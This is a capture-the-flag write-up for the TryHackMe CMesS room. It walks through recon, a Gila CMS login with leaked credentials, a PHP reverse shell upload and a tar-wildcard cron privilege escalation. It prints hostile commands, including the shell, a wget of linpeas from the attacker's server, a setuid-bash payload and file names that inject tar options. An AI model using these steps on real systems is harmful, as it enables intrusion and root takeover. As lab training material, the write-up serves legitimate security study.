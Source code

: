 # TryHackMe CMesS

- [Room](https://tryhackme.com/room/cmess)

## Nmap

```bash
┌──(root💀kali)-[~]
└─# nmap -T4 -sC -sV -O -Pn -p- 10.10.125.143
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-28 12:09 EDT
Stats: 0:00:02 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 0.20% done
Stats: 0:00:03 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 0.26% done
Nmap scan report for cmess.thm (10.10.125.143)
Host is up (0.27s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d9:b6:52:d3:93:9a:38:50:b4:23:3b:fd:21:0c:05:1f (RSA)
|   256 21:c3:6e:31:8b:85:22:8a:6d:72:86:8f:ae:64:66:2b (ECDSA)
|_  256 5b:b9:75:78:05:d7:ec:43:30:96:17:ff:c6:a8:6c:ed (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: Gila CMS
| http-robots.txt: 3 disallowed entries 
|_/src/ /themes/ /lib/
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Aggressive OS guesses: Linux 3.10 - 3.13 (95%), Linux 5.4 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.1 (95%), Linux 3.16 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), Linux 2.6.32 (92%), Linux 3.0 - 3.2 (92%), Linux 3.0 - 3.5 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1289.07 seconds
```

## Port 80

![image](https://user-images.githubusercontent.com/96747355/176236230-0ba5c004-d17a-4a12-a78e-0ac29620f9ca.png)    
- When googling we find [this](https://www.cvedetails.com/cve/CVE-2020-5514/) (needs to be authenticated)  
- We have a robots.txt  
![image](https://user-images.githubusercontent.com/96747355/176236371-39a429f6-3054-44b6-af45-396859476a4b.png)  
- With gobuster we found: /login and /admin
- Let's look for subdomain `wfuzz -c -f sub-fighter -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u 'http://cmess.thm' -H "HOST: FUZZ.cmess.thm" --hw 290` 
- We remove pages with 290 words because it is a not found response so not relevant for us even though the response code is 200. W find dev subdomain let's add it to /etc/hosts `10.10.125.143 dev.cmess.thm`
- We find a few usernames and a username password combination! Let's try it!
![image](https://user-images.githubusercontent.com/96747355/176244503-a9fe3480-a4e1-4b7d-b3d0-8429c7099b10.png)  
- And it works!  
![image](https://user-images.githubusercontent.com/96747355/176245591-17c1872a-77f9-424d-812e-df694ba131b9.png)  
- In the dashboard there is a feature called file manager. If we check out the config file we find a few interesting info including another password that we keep aside for later.  
![image](https://user-images.githubusercontent.com/96747355/176247384-c2effae3-bac8-4dd5-ba47-31c7517ac477.png)  
- We can try the CVE previously found with google 
- let's follow this blog [post](https://infosecdb.wordpress.com/2020/01/05/gilacms-1-11-8-remote-code-execution/)
  - => NOT WORKING
- What's working though is to use the feature to download a php reverse shell this way we get a shell. Our file goes in the asset folder  
![image](https://user-images.githubusercontent.com/96747355/176249759-aed47f3b-5cc1-4e3b-a6fd-cf55e9b88176.png)  
- Then we just need to access to the url `http://cmess.thm/assets/php-reverse-shell.php` and we get our shell  
![image](https://user-images.githubusercontent.com/96747355/176250190-a5a5c620-0ec1-45cf-8574-327d18be0275.png)  
- We stabilize our shell `python3 -c 'import pty; pty.spawn("/bin/bash")'`
- Lets get a privesc enum script in our target. I am a fan of linpeas so I am gonna use it here.
  - `wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh`
  - `python3 -m http.server 80`
  - And from our target we type `wget http://10.13.22.56/linpeas.sh` (we need to be in the tmp folder to successfully write the file)
  - We make it executable `chmod +x linpeas.sh` and we launch it `./linpeas.sh`

## Lateral movement

## Interesting output from linpeas  

- [Kernel exploits](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#kernel-exploits)  
![image](https://user-images.githubusercontent.com/96747355/176254540-808b1e35-3040-47c3-b075-2f6e1b0c6fb9.png)  

- [Sudo version](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-version)
![image](https://user-images.githubusercontent.com/96747355/176254372-dc5e27df-f5c4-4f5b-a076-75771f4b478c.png)  

- List of cve we could try out
```
[+] [CVE-2017-16995] eBPF_verifier
[+] [CVE-2016-5195] dirtycow
[+] [CVE-2016-5195] dirtycow 2
[+] [CVE-2021-3156] sudo Baron Samedit 2
   Download URL: https://codeload.github.com/worawit/CVE-2021-3156/zip/main
[+] [CVE-2017-7308] af_packet
   Download URL: https://raw.githubusercontent.com/xairy/kernel-exploits/master/CVE-2017-7308/poc.c
   ext-url: https://raw.githubusercontent.com/bcoles/kernel-exploits/master/CVE-2017-7308/poc.c
[+] [CVE-2017-6074] dccp
[+] [CVE-2017-1000112] NETIF_F_UFO
   Download URL: https://raw.githubusercontent.com/xairy/kernel-exploits/master/CVE-2017-1000112/poc.c
   ext-url: https://raw.githubusercontent.com/bcoles/kernel-exploits/master/CVE-2017-1000112/poc.c
[+] [CVE-2016-8655] chocobo_root
[+] [CVE-2016-4557] double-fdput()
[+] [CVE-2021-3156] sudo Baron Samedit
   Download URL: https://codeload.github.com/blasty/CVE-2021-3156/zip/main
[+] [CVE-2021-22555] Netfilter heap out-of-bounds write
   ext-url: https://raw.githubusercontent.com/bcoles/kernel-exploits/master/CVE-2021-22555/exploit.c
[+] [CVE-2019-18634] sudo pwfeedback
   Details: https://dylankatz.com/Analysis-of-CVE-2019-18634/
[+] [CVE-2019-15666] XFRM_UAF
[+] [CVE-2018-1000001] RationalLove
[+] [CVE-2017-1000366,CVE-2017-1000379] linux_ldso_hwcap_64
[+] [CVE-2017-1000253] PIE_stack_corruption
[+] [CVE-2016-9793] SO_{SND|RCV}BUFFORCE
   Details: https://github.com/xairy/kernel-exploits/tree/master/CVE-2016-9793
   Download URL: https://raw.githubusercontent.com/xairy/kernel-exploits/master/CVE-2016-9793/poc.c
[+] [CVE-2016-2384] usb-midi
   Download URL: https://raw.githubusercontent.com/xairy/kernel-exploits/master/CVE-2016-2384/poc.c
[+] [CVE-2016-0728] keyring
      CVE-2016-8655
      CVE-2018-14665
      CVE-2017-16695
```
- other interesting things to check
```
/etc/cron.d:
-rw-r--r--  1 root root  191 Feb  6  2020 popularity-contest
*/2 *   * * *   root    cd /home/mandre/backup && tar -zcf /tmp/andre_backup.tar.gz *
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -  
-rw------- 1 root root 317 Feb  6  2020 /etc/mysql/debian.cnf
drwxr-xr-x 2 root root 4096 Feb  6  2020 /etc/apache2/sites-enabled
lrwxrwxrwx 1 root root 35 Feb  6  2020 /etc/apache2/sites-enabled/000-default.conf -> ../sites-available/000-default.conf
/usr/share/doc/openssh-client/examples/sshd_config 
/opt/.password.bak
```
- The sudo version is not successful cause our version does not seem vulnerable.
- Let's check this file `/opt/.password.bak`  
![image](https://user-images.githubusercontent.com/96747355/176259230-96bf43f5-7bd2-4b84-b7f8-50b34028b1d9.png)  
- We have another password
- Let's try it if we su andre it works! let's ssh as andre
![image](https://user-images.githubusercontent.com/96747355/176259522-58a59463-1c0c-474e-b8d7-b082ec8e0329.png)  
- Let's grab the user flag  
![image](https://user-images.githubusercontent.com/96747355/176260214-7478952b-3cac-45e3-851f-db27f15fd50a.png)  

- Let's now enumerate way to privesc from Andre's user

## Privesc

### Linepeas as Andre

- Our home is in the path. [Ressources for this on hacktricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-path-abuses)
![image](https://user-images.githubusercontent.com/96747355/176260810-dfe4817a-5460-4895-b054-70cef795512b.png)
This seems to be an interesting cron job  
![image](https://user-images.githubusercontent.com/96747355/176261237-b9c710fc-e755-4164-b59f-d305cbb5d246.png)  
- This is doing a backup with a wildcard. We can try to abuse this.
- Let's go to the backup folder
- `echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/andre/backup/runme.sh` we create a malicious bash
- `touch /home/andre/backup/--checkpoint=1` when the scheduled script is going to read the home directory it will have a file named as a tar command, so it will interpret it. This command displays a status message every 1
- `touch /home/andre/backup/--checkpoint-action=exec=sh\ runme.sh` then this command is going to make and action when the checkpoint we created before is hit
- Let's now try to launch our script `/tmp/bash -p`  
- It works!  
![image](https://user-images.githubusercontent.com/96747355/176267325-6ea9c1b2-b09f-4688-8fdf-4c84b470ad62.png)  
- Let's grab the last flag  
![image](https://user-images.githubusercontent.com/96747355/176267587-82e56ca1-047e-410c-a5c5-b2a11e87d342.png)  

